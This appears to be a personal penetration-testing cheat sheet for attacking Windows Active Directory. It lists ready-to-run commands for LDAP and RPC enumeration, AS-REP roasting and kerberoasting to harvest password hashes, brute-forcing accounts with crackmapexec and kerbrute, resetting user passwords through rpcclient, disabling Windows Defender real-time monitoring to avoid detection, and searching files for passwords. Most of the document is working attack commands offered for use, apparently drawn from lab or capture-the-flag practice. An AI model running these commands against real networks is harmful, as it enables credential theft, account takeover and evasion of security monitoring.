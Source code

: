 # For SMB and RPC stuff, use the IP in parameters, not the name you wrote in /etc/hosts

## Ldap

```
nmap -n -sV -script "ldap*" -p 389 <ip>

ldapsearch -LLL -x -h <ip> -b '' -s base '(objectclass=*)'

ldapsearch -h <ip> -x -s base namingcontexts
ldapsearch -h <ip> -x -b 'DC=fzefze,DC=fzef' > ldap.txt
ldapsearch -h <ip> -x -b <result> '(objectClass=Person)'
ldapsearch -h <ip> -x -b <result> '(objectClass=Person)' saMAccountName

ldapsearch -h 10.10.10.182 -x -s sub -b "DC=cascade,DC=local"
```


---

## RPC Windows (port 135) 

- For SMB stuffs and rpc, do not use the name you use in the etc hosts file, enter the IP

- ```rpcclient -U "" <ip>```
- ```enumdomusers```
- ```queryuser <id>``` (for example 0x1f4)
- ```querydispinfo```
- ```enumprinters```

- Found user's group : ```enumalsgroups builtin(or domain)```
- ```queryaliasmem builtin(or domain) <rid>```
- ```lookupsids <sid>```

- ```privs``` enumerate the privilege of the current user.

- modify a password if you have the good rights : ```setuserinfo2 <user> 23 '<password>'```


- about 23 : https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN

- If you found new users, reunenumerate everything.

---

## Find TGTs for users

- This script will attempt to list and get TGTs for those users that have the property
'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH).

`GetNPUsers <domain> -usersfile user.txt -dc-ip ip`

---

## Enumerate policies in windows

- `crackmapexec smb <ip> --pass-pol -u '' -p ''`
- if you have threshold to 0, you can bruteforce without locking account

---

## Bruteforce account password on windows

- `crackmapexec smb <ip> -u userlist.txt -p passwords.txt -m UAC` 
- `kerbrute`

---

## Automated enumeration

- Scripts : `winpeas`

- Use bloodhound and sharphound Upload sharphound (in bloodhound/ingestors) (do not forget, you have to use it with a domain account, and the cred inside should be a local administrator)

Upload invoke-kerberoast.ps1 (from empire) to kerberoast a couple of hashes. To avoid defender use : Set-MpPreference -DisableRealtimeMonitoring $true (Same as sharphound, needs domain account)
: powershell -c "import-module c:\programdata\invoke-kerberoast.ps1; invoke-kerberoast -outputformat hashcat"
or without powershell -c


---

## Bypass restrictions

![3fae2301aeb3a1521f2b31d80748d0da.png](../../_resources/e5edde8c3c054d3b94dee3ef14feb4d2.png)

Create a file, open it, enter cmd.exe inside, and save it as cmd.bat.

---


## Enumerate policies in windows

- ```crackmapexec smb ip --pass-pol -u '' -p '' ```
- if you have threshold to 0, you can bruteforce without locking account

---

## Bruteforce account password on windows

- `crackmapexec smb ip -u userlist.txt -p passwords.txt`

---

## Enumerate files with special extensions in a folder

`dir .bat* /B /S /a`

- try txt, xml, ini, php, py, aspx (I think that's all ?)

---

## Find password or user in file

`findstr /spin "password" *.*`
